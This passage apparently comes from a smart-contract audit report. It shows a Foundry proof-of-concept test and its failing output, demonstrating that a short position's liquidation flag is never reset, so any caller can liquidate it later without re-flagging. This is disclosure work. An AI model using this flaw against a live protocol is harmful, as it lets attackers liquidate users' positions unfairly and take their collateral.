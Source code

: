 ```js
        _setETH(2700 ether); // cR > 4
        skip(3 hours); // 11 hours have passed since flagging. Eligible for liquidation attempt.
        _setETH(2700 ether); // avoids evm revert. cR still > 4

        // should be true
        bool isFlagged = theShortRecord.flaggerId != 0;
        console.log("isFlagged (should be true) =", isFlagged);

        vm.prank(_flagger_01);
        vm.expectRevert(Errors.SufficientCollateral.selector);
        // Correctly reverts as cR > 4
        diamond.liquidate(
            asset, sender, Constants.SHORT_STARTING_ID, shortHintArrayStorage
        );

        skip(3 hours); // 14 hours passed since flagging. Anyone can attempt liquidation.
        _setETH(2700 ether); // avoids evm revert. cR still > 4

        vm.prank(_anyone);
        vm.expectRevert(Errors.SufficientCollateral.selector);
        // Correctly reverts as cR > 4
        diamond.liquidate(
            asset, sender, Constants.SHORT_STARTING_ID, shortHintArrayStorage
        );

        skip(4 hours); // 18 hours passed since flagging. Flag should have been reset.
        _setETH(2700 ether); // avoids evm revert. cR still > 4

        // should be false
        isFlagged = theShortRecord.flaggerId != 0;
        console.log("isFlagged (should be false) =", isFlagged); // @audit-issue : true; still not unflagged!

        skip(1 minutes);
        _setETH(2666 ether); // cR < 4 due to unfavorable price movement.

        vm.prank(_anyone);
        // @audit-issue : ANYONE is able to liquidate (incorrectly) even after 16 hours, without re-flagging and waiting for 10 hours! Should not be possible.
        diamond.liquidate(
            asset, sender, Constants.SHORT_STARTING_ID, shortHintArrayStorage
        );
    }
}

```

- **Test-1:** Run `forge test --mt test_01_flagDoesNotResetOnFavorablePriceMovement -vv` to verify that the flag is never reset.<br>
Output:
```
Logs:
  isFlagged (should be true) = true
  isFlagged (should be false) = true
  Error: Short's flag was not reset!
  Error: a == b not satisfied [bool]
        Left: true
       Right: false

Test result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 133.72ms
```
